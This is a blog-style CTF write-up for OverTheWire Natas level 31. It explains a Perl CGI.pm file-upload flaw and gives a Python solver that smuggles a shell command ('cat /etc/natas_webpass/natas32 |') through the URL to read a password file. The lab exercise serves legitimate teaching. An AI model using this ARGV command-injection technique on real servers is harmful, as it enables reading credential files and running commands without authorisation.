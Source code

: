 ```yaml
---
layout: post
title:  "Natas Level 30 → Level 31"
date:   2021-06-08 02:13:09
categories: ctf wargames web-security
tags: wargames ctf overthewire web-security
series: "OverTheWire: Natas"
excerpt: From CGI.pm with love
mathjax: false
---
```


## Level Goal
Excluding the URL and username, the Level Goal section is blank for the Natas ctf.


## Solution
Logging into the natas31 site we see a form to allow us to log in and a link to the source code. Let's look at the source code.

```perl
my $cgi = CGI->new;
if ($cgi->upload('file')) {
    my $file = $cgi->param('file');
    ...
    while (<$file>) {
        ...
```

If you haven't seen [The Perl Jam 2: The Camel Strikes Back](https://www.youtube.com/watch?v=BYl3-c2JSL8) from BlackHat 2016, I'd recommend giving it a watch. You can jump to [17:13](https://youtu.be/BYl3-c2JSL8?t=1011) if you'd like to see the portion directly related to this level. The above code is nearly identical to the code from the video. 

I'll leave you to watch the video from at least 17:13 for an explanation of why this code is exploitable. 

Below is the Python code I used to solve this level.

```python
import re
import os.path
import requests
from requests.auth import HTTPBasicAuth

password = 'h------------------------------1'
session = requests.Session()

auth = HTTPBasicAuth('natas31', password)
url = 'http://natas31.natas.labs.overthewire.org/'
payload = url + '?cat /etc/natas_webpass/natas32 |'

if not os.path.exists('natas31.csv'):
    with open('natas31.csv', 'w') as f:
        f.write('temp,file')

csv = {'file': open('natas31.csv', 'rb')}

resp = requests.post(payload, files=csv, data={'file': 'ARGV', 'submit': 'Upload'}, auth=auth)
page = resp.text

if os.path.isfile('natas31.csv'):
    os.remove('natas31.csv')

x = re.findall("([a-zA-Z0-9]{32})", page)
print(x[-1])
```

This code creates a temporary .csv file needed to perform the attack. The file is deleted afterward. The password to the next level will be returned after the upload finishes.